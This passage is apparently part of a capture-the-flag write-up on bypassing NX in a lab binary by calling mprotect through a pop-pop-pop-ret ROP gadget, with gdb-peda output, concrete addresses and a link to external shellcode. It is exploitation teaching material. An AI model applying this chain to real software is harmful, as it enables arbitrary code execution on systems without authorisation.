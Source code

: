 `[!]` Size of area to overwrite is **76**.
```
gdb-peda$ p mprotect
$2 = {<text variable, no debug info>} 0xb7efcd50 <mprotect>
```
`[!]` `mprotect` is at **0xb7efcd50**.

`[*]` `mprotect` man page:
```
int mprotect(void *addr, size_t len, int prot);
DESCRIPTION
       mprotect() changes protection for the calling process's memory page(s) containing any part of the address range in the interval [addr, addr+len-1].

#define PROT_READ       0x01            /* page can be read */
#define PROT_WRITE      0x02            /* page can be written */
#define PROT_EXEC       0x04            /* page can be executed */
```
`[!]` We'll pass the stack start address as a first argument to make it executable (and get rid of NX protection).

`[!]` The second argument will be stack's length:
``` 
gdb-peda$ p/x 0xc0000000 - 0xbfedf000
$3 = 0x121000
```
`[!]` The third argument, obviously, will be (`PROT_EXEC` (0x4) | `PROT_READ` (0x1) | `PROT_WRITE` (0x2)), which is **0x7**.

`[*]` Next, we'll need a ROP gadget that is "pop-pop-pop-ret" to pop 3 arguments, that we pass to `mprotect`, and then return back. GDB-Peda has a built-in function for ROP gadget search:
```
gdb-peda$ ropgadget libc
ret = 0xb7e1a417
addesp_4 = 0xb7e455ea
popret = 0xb7e1baa6
pop3ret = 0xb7e317d9
pop4ret = 0xb7e319a4
pop2ret = 0xb7e317da
<...>
```
`[!]` pop3ret is at **0xb7e317d9**.

`[!]` We'll need a shellcode to execute: http://shell-storm.org/shellcode/files/shellcode-251.php

`[+]` Exploit is ready! (exploit.py)

```
gdb-peda$ run
Starting program: /home/xalvas/app/goodluck
<...>
Breakpoint 1, 0x80000d86 in main ()

gdb-peda$ jump debug
Continuing at 0x80000c15.

this function is problematic on purpose

I'm trying to test some things...and that means get control of the program! 
vulnerable pointer is at bffff600
memory information on this binary:
<...>


Filename:
```
